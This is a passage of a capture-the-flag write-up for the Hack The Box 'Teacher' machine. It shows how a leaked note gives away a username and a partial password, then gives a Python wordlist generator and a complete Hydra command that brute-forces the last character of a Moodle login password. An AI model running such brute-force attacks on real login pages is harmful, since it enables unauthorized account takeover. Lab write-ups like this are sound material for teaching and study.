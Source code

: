 Look in the top left, the image is not properly rendered. My CTF exprience says either the image is actually not image but a file with some `base64` in it or the header of the image must be messed.

Visiting `http://10.10.10.153/images/5.png` and saving the image gives us a text file.

Well it's neither base64 nor the messed up headers, it's simple plain text

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

So this tells us the `username` is `Giovanni` and half password being `Th4C00lTheacha`. Well now we need to find the complete password.
For some reason I tried to find this password in the `rockyou` password list but obviously couldn't find the match.

After spending sometime on the website I realized that I am a fool :stuck_out_tongue_closed_eyes: because the note says that only a single character is missing so why are we even bothering to find the password on the website, let's just brute force it meaning it's time to bring out `Hydra`.

But the problem is that hydra needs a word list and since we need only single char bruteforce we'll have to make our own wordist.

I wrote a small script in python to generate the [wordlist](wordlist.txt)

```python
from string import printable
from string import punctuation

wordlist = "~/HTB/Teacher/wordlist.txt"
with open(wordlist, 'w') as f:
    for i in printable:
        f.write(i)
        f.write("\n")
    for i in punctuation:
        f.write(i)
        f.write("\n")

```

-------------------------------------------------------------------------------

#### Hydra


Now let's use that in hydra

```bash
hydra -l Giovanni -P /List/ 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=Th4C00lTheacha^PASS^:Invalid login, please try again" -Vv
```
